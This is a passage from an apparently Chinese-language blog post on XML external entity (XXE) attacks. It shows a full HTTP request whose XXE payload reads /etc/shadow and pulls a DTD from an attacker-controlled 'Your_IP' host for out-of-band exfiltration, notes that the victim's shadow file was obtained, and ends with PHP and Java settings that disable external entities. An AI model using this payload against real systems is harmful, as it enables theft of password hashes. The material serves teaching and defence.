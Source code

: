 4)发送以下报文：

```
POST /xxx/*** HTTP/1.1
Host: target_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: https://target_ip/xxx/***.jsp
ContentType: pplication/x-www-form-urlencoded
Cookie: JSESSIONID=WwV5E_ZpZVWhnIKEaFuuphs1.localhost; ops.cookie.principal=xxxxx
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 159

<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://Your_IP/test.dtd">
%sp;
%param3;
%exfil;
]>
```

![20190114223856]({{site.baseurl}}/assets/images/审计/20190114223856.png)

**漏洞截图**：

0x1:

成功获取到受害主机的/etc/shadow文件

![20190114224543]({{site.baseurl}}/assets/images/审计/20190114224543.png)

结束。

​      另外，也可呀使用工具[XXEinjector ](https://github.com/MichaelWayneLIU/XXEinjector.git)完成带外攻击。 具体可[参考](https://michaelwayneliu.github.io/2018/08/28/XXE%E6%94%BB%E5%87%BB%E9%82%A3%E4%BA%9B%E4%BA%8B/)

## 7.xxe防御

使用语言中推荐的禁用外部实体的方法

**PHP：**

```
libxml_disable_entity_loader(true);

```

**JAVA:**

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

.setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);

.setFeature("http://xml.org/sax/features/external-general-entities",false)

.setFeature("http://xml.org/sax/features/external-parameter-entities",false);

```
